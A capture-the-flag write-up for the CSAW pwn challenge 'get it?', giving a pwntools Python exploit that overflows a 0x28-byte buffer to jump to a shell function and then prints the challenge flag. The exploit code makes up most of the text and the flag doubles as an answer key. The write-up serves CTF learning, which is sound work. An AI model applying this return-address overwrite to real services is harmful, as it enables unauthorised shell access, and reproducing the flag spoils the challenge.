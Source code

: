 # **get it?**

#### tag : pwn, bof

-----------------------------------------------

#### Description

>Do you get it?
>
>nc pwn.chal.csaw.io 9001

-----------------------------------------------

#### Solution

```python

from pwn import *

### DEBUGGING ###

DEBUG = False

if DEBUG:
    r = process('get_it')
    timeout = 0.1

    context.log_level = 'debug'
#    gdb.attach(r)
else :
    r = remote('pwn.chal.csaw.io',9001)
    timeout = 0.3

def rr(s):
    return r.recvuntil(s)

def ss(s):
    return r.sendline(s)

### ADDRESS ###

sh = 0x4005b6

### PAYLOAD ###

payload = 'a'*0x28
payload += p64(sh)

### EXPLOIT ###

rr('??')
ss(payload)
r.interactive()

```

**flag{y0u_deF_get_itls}}**
